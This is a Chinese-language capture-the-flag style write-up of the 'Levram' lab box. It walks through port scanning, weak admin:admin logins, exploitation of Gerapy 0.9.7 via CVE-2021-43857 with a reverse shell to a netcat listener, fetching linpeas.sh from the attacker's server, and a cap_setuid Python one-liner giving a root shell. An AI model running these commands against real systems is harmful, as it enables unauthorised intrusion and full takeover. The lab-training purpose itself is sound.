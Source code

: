 ```yaml
---
description: >-
  Easy - Linux / Gerapy 0.9.7 / CVE-2021-43857 / Capabilities提权 - cap_setuid
  python
---
```


# ✔️ Levram

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个开放端口：22和8000

```bash
nmap -sC -sV -oA levram 192.168.124.24 --open
```

<figure><img src="../../.gitbook/assets/1 (1).png" alt=""><figcaption></figcaption></figure>

* 检查8000端口上的内容，尝试弱口令登录成功： **admin : admin**

<figure><img src="../../.gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

* 并发现了当前正在运行的程序及其版本号：**Gerapy v0.9.7**

<figure><img src="../../.gitbook/assets/3 (1).png" alt=""><figcaption></figcaption></figure>

* 枚举8000端口上的隐藏文件/目录，找到了/admin目录：

<figure><img src="../../.gitbook/assets/4 (1).png" alt=""><figcaption></figcaption></figure>

* 在8000端口上的/robots.txt里的/admin目录对应上：

<figure><img src="../../.gitbook/assets/5 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (1).png" alt=""><figcaption></figcaption></figure>

* 查看发现是Django Administration登录页面，使用弱口令登录成功：**admin:admin**

<figure><img src="../../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

* 依次查看并无任何有用的收获：

<figure><img src="../../.gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据之前已获取到的正在运行的程序Gerapy v0.9.7，查找到了公开的可利用漏洞：

<figure><img src="../../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 在GitHub上找到了可以直接利用的脚本，无需修改直接执行：

<figure><img src="../../.gitbook/assets/11 (1).png" alt=""><figcaption></figcaption></figure>

### Get Shell

* 执行cve-2021-43857.py：

```bash
python3 cve-2021-43857.py -u http://192.168.193.24:8000 -U admin -P admin -r 192.168.45.244 -p 4444
# 监听：
nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 获取到local.txt：

<figure><img src="../../.gitbook/assets/14 (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传linpeas.sh进行信息收集：

```bash
# Kali：
python3 -m http.server
# target：
wget http://192.168.45.244:8000/linpeas.sh
```

<figure><img src="../../.gitbook/assets/15 (1).png" alt=""><figcaption></figcaption></figure>

* 执行linpeas.sh：

```bash
chmod 777 linpeas.sh
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/16 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 从linpeas.sh的输出结果中得知Files with capabilities这一项的 **/usr/bin/python3.10 cap\_setuid=ep** 可被利用：

<figure><img src="../../.gitbook/assets/17 (1).png" alt=""><figcaption></figcaption></figure>

* 这是因为python 3.10作为可执行文件，被赋予了cap\_setuid的能力。在GTFOBins中找到了可利用的命令：

<figure><img src="../../.gitbook/assets/18 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 先切换到/bin目录下，因为python在该目录下。然后执行以下命令即可提权到root权限：

```bash
cd /usr/bin
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

<figure><img src="../../.gitbook/assets/19 (1).png" alt=""><figcaption></figcaption></figure>

* 获取到proof.txt：

<figure><img src="../../.gitbook/assets/20.png" alt=""><figcaption></figcaption></figure>
